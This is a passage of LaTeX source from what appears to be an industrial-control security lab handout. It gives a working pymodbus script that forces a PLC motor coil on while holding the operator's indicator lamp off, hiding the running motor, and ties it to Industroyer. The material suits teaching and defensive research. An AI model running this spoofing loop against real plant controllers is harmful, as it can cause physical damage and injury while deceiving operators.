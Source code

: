 \documentclass[11pt,a4paper]{article}
\begin{document}
The replay above proves that an attacker can produce
indistinguishable-from-normal traffic. Now we use that cover to do
something that actually moves the plant.

\begin{stepbox}{4.1 -- Drive the motor while the operator HMI lies}
The conveyor ladder is \texttt{Motor := (Start OR Motor) AND Stop
AND Guard1 AND Guard2; Lamp := Motor;}. In a clean plant, the lamp
follows the motor -- the operator sees the lamp on \emph{iff} the
motor is on. We will break that invariant by writing both coils
from the outside.

Why this matters in plain IT terms: the ladder runs every 20\,ms
and updates \texttt{Motor} from inputs, then \texttt{Lamp} from
\texttt{Motor}. A Modbus write directly to coil~1 (Lamp) is
overwritten on the next scan -- so a single write would be
visible only for $<20$\,ms. But if we hold a steady stream of
writes, we can pin the Lamp to a value of our choosing for as
long as we like, while the actual Motor coil tells the truth on
the I/O bus.

Run the spoofing loop:
\begin{lstlisting}[language=bash]
docker compose exec student bash -c 'cat >/tmp/spoof.py <<"PY"
import time
from pymodbus.client import ModbusTcpClient
c = ModbusTcpClient("172.28.0.10", port=502); c.connect()
# 1) Trigger the dangerous condition: pulse the Start input via coil
#    forcing on QX0.0 directly (override the ladder output).
# 2) Simultaneously hold Lamp (coil 1) to FALSE so the operator
#    HMI keeps showing "stopped".
t_end = time.time() + 30
n = 0
while time.time() < t_end:
    c.write_coil(address=0, value=True,  slave=1)   # Motor ON
    c.write_coil(address=1, value=False, slave=1)   # Lamp OFF (lie)
    n += 1
    time.sleep(0.05)
c.close()
print(f"wrote {n} pairs in 30 s")
PY
python3 /tmp/spoof.py'
\end{lstlisting}
While that runs (30~seconds), refresh the OpenPLC
\emph{Monitoring} page at \url{http://127.0.0.1:8080}. Watch the
\texttt{Motor (\%QX0.0)} and \texttt{Lamp (\%QX0.1)} values. With a
fast-enough write loop, you should see them disagree for stretches
of time -- the motor reports ON, the lamp reports OFF, even though
the ladder source code says they must be equal.

\textit{Expected output:}
\begin{lstlisting}
wrote 600 pairs in 30 s
\end{lstlisting}
\emph{Real-world anchor:} this is the small Industroyer move
(2016, Pivnichna substation). The Industroyer IEC-101/104 modules
sent legitimate-looking control commands; from the protocol's
point of view nothing was wrong. The damage was in \emph{what} the
commands asked for, not in \emph{how} they were framed.
\end{stepbox}
\end{document}
